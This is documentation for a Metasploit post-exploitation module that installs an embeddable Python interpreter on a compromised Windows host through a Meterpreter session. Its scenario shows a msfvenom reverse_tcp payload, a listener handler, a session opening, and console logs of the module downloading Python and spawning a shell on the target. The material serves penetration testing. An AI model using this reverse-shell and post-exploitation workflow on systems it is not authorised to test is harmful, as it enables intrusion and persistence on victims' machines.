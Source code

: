 ## Overview

This module downloads an embeddable Python3 distribution onto the target file system, granting pentesters access to a lightweight Python interpreter. This module does not require administrative privileges or user interaction with installation prompts.

## Tested Version
This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. Do: `use post/windows/manage/install_python`
  4. Do: `set SESSION #`
  5. Optional Do: `set PYTHON_VERSION`
  6. Optional Do: `set PYTHON_URL`
  7. Optional Do: `set FILE_PATH`
  8. Do: `run`


## Options
  **PYTHON_VERSION**

  Specifies the Python version you would like to download. Downloads Python version 3.8.2 by default.

  **PYTHON_URL**

  Specifies the URL used to download the Python embeddable zip file.

  **FILE_PATH**

  Specifies the directory to place the Python embeddable zip file.
  Places Python zip file in the current working directory by default.

  **CLEANUP**

  If true, this option will delete the Python zip file as well as its extracted contents. It will also terminate running processes with name 'python', as you cannot delete the Python interpreter if it is actively running.

## Scenarios

Get initial access: Create a Meterpreter exe using msfvenom, then transfer it to the target system via web server, SMB, etc. Execute the payload to get a session.

    msf5 > handler -H 0.0.0.0 -P 4444 -p windows/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.

    [*] Started reverse TCP handler on 0.0.0.0:4444 
    msf5 > 
    [*] Sending stage (180291 bytes) to 192.168.13.129
    [*] Meterpreter session 1 opened (192.168.13.130:4444 -> 192.168.13.129:50069) at 2020-03-04 20:32:59 -0500

Use the post module to install Python on the target filesystem

    msf5 > use post/windows/manage/install_python 
    msf5 post(windows/manage/install_python) > set SESSION 1
    SESSION => 1
    msf5 post(windows/manage/install_python) > exploit 

    [*] Downloading Python embeddable zip from https://www.python.org/ftp/python/3.8.2/python-3.8.2-embed-win32.zip
    [+] Compressed size: 1112
    [*] Extracting Python zip file: .\python-3.8.2-embed-win32.zip
    [+] Compressed size: 952
    [*] Ready to execute Python; spawn a command shell and enter:
    [+] .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    [!] Avoid using this python.exe interactively, as it will likely hang your terminal; use script files or 1 liners instead
    [*] Post module execution completed

Verify Python works

    msf5 post(windows/manage/install_python) > sessions -i 1 
    [*] Starting interaction with 1...

    meterpreter > shell
    Process 2688 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.1039]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\buddha\AppData\Local\Temp>.\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    Hello, world!

Note that running this Python interpreter interactively may hang your command shell.
